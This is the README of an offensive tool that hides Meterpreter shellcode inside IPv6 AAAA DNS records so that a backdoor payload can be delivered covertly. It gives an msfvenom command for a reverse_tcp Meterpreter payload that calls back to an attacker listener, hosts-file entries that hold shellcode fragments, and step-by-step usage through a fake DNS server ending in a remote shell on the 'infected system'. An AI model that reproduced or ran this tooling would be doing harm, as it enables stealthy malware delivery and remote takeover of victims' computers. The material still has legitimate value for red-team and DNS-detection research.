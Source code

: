 # NativePayload_IP6DNS
Published by Damon Mohammadbagher

this tool working like NativePayload_DNS , but in this case this tool working by IPv6 Address and AAAA records for Transferring Backdoor payloads by DNS Traffic ;)


note : this code supported only 990 bytes (99 lines IPV6 ADDRESS foreach 10 bytes) for Payloads , for changing this value you should change source code

note : {fe80:1111:}{fc48:83e4:f0e8:cc00:0000}{:ae0} {test.domain.com}

note : 10 bytes Payload ==> {fc48:83e4:f0e8:cc00:0000} and {:ae0} is payload counter or ID 


syntax 1 : NativePayload_IP6DNS.exe null "payload string"

description 1 : Making Hosts files for Linux Dns Server Like Dnsmasq or dnsspoof tools , copy output for this command to DNS Hosts file in linux
you can use Msfvenom tool like example and copy your payload in "payload string"

Example : payload string ==> fc4883e4f0e8cc000000415141505251564831d2ae1

Example: msfvenum --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.113 -f c > /dnsmasq.hosts

after this command you have something like these lines in your Hosts file :

Example : /etc/dnsmasq.hosts or /etc/hosts "depend on your configuration for dnsmasq or dnsspoof tools 

fe80:1111:fc48:83e4:f0e8:cc00:0000:ae0 test.domain.com

fe80:1111:4151:4150:5251:5648:31d2:ae1 test.domain.com

fe80:1111:6548:8b52:6048:8b52:1848:ae2 test.domain.com

fe80:1111:8b52:2048:8b72:5048:0fb7:ae3 test.domain.com

fe80:1111:4a4a:4d31:c948:31c0:ac3c:ae4 test.domain.com

fe80:1111:617c:022c:2041:c1c9:0d41:ae5 test.domain.com

.

.

.

fe80:1111:85f6:75b4:41ff:e758:6a00:ae49 test.domain.com

fe80:1111:5949:c7c2:f0b5:a256:ffd5:ae50 test.domain.com





syntax 2 : NativePayload_IP6DNS.exe Payload

description 2 : this switch is for making sample payload for your hosts file


syntax 3 : NativePayload_IP6DNS.exe "FQDN" "Fake_DNS_Server"

description 3 : after making your payloads and copy that in your fake_DNS_Server by dnsmasq or dnsspoof and starting fakeDNSServer , now you can start transferring your Payloads From FakeDNSServer to your Infected system by NativePayload_IP6DNS.exe tool

Example : NativePayload_IP6DNS.exe  test.domain.com  192.168.1.113

note : in this case 192.168.1.113 is your FakeDNSServer also this is your Metasploit: Meterpreter/Listener.

you should have meterpreter session after 1 DNS Response from FakeDNSserver to Client (Backdoor system)



